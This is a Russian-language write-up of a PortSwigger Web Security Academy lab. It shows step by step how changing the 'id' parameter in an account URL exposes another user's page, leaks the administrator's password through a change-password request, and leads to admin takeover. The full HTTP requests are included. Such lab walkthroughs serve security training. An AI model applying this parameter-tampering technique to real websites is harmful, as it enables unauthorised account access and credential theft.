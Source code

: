 ```yaml
---
title: "User ID controlled by request parameter with password disclosure"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure"
classes: wide
---
```


Для решения лабы нужно получить пароль администратора и удалить пользователя `carlos`. У нас есть креды аккаунта `wiener:peter`.

```
https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/
```

## Solution

Давайте зайдем в наш аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/1.png){: height="200" .align-center}

Мы можем поменять пароль, давайте это сделаем. Для смены пароля отправляется следующий `HTTP`-запрос:

```http
POST /my-account/change-password HTTP/2
Host: 0a08009c04cf91c08113e57500d00040.web-security-academy.net
Cookie: session=A8ftLNDC7xCMEgpUPJZiUwxuswsUz3Hr
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7200db03aa32bb8510b21b00ce0097.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: https://0a7200db03aa32bb8510b21b00ce0097.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=OwtMTy0ECLZB4Ye67gZQHm441sE0XH4t&password=peter
```

В `url` профиля `https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/my-account?id=wiener` есть параметр `id`. Попробую подставить другой логин вместо `wiener`. Например, `carlos`.

Получилось. Значит мы можем попробовать получить доступ к другому аккаунту таким образом. Например к аккаунту администратора `administator`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/2.png){: height="200" .align-center}

Теперь отправим запрос на замену пароля, чтобы увидить старый пароль от аккаута.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/3.png){: height="200" .align-center}

Из `GET`-запроса мы можем получит пароль администратора `ow5jiz1snvfoh8w5k0wr`. 

```http
POST /my-account/change-password HTTP/2
Host: 0a08009c04cf91c08113e57500d00040.web-security-academy.net
Cookie: session=pGe3qXmI9bEzCKhTqLZX6bNGv0KbdHDz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/my-account?id=administrator
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: https://0a08009c04cf91c08113e57500d00040.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=VXv8WXomogQouSE7PomUtxHnScwSkfgS&password=ow5jiz1snvfoh8w5k0wr
```

Попробуем залогиниться.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/4.png){: height="200" .align-center}

Мы получили доступ к аккаунту администратора, теперь удалим пользователя `carlos` для завершения лабы.